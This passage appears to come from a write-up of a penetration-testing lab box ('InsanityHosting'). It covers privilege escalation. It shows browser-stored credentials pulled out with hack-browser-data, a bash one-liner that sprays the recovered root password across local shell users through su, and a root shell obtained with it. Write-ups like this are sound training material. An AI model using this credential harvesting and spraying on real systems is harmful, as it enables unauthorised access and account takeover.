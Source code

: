 
```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ grep -rin passw -E5 hack-browser-data-results
hack-browser-data-results/firefox_esmhp32w_default_default_password.json-1-[
hack-browser-data-results/firefox_esmhp32w_default_default_password.json-2-  {
hack-browser-data-results/firefox_esmhp32w_default_default_password.json-3-    "UserName": "root",
hack-browser-data-results/firefox_esmhp32w_default_default_password.json:4:    "Password": "S8Y389KJqWpJuSwFqFZHwfZ3GnegUa",
hack-browser-data-results/firefox_esmhp32w_default_default_password.json-5-    "LoginURL": "https://localhost:10000",
hack-browser-data-results/firefox_esmhp32w_default_default_password.json-6-    "CreateDate": "2020-08-16T23:25:17+08:00"
hack-browser-data-results/firefox_esmhp32w_default_default_password.json-7-  }
hack-browser-data-results/firefox_esmhp32w_default_default_password.json-8-]
```

### Password spraying

Spray the password on local users that have shell

```bash
PASS='S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'; for USER in $(cat /etc/passwd|grep sh$|awk -F: '{print $1}'); do (x=$(echo $PASS | su $USER -c whoami 2>/dev/null); if [ "$x" ]; then echo "[+] $USER"; fi) & done
```

![](/assets/obsidian/975393c23b2d8efc806b008ce58ffbc8.png)

```bash
[elliot@insanityhosting ~]$ su - root
Password:S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
Last login: Sun Jun 16 17:51:17 BST 2024
[root@insanityhosting ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

# Post Exploitation


## System Proof Screenshot

![](/assets/obsidian/98f57b8919a5adc8c1b0de1464d531e6.png)

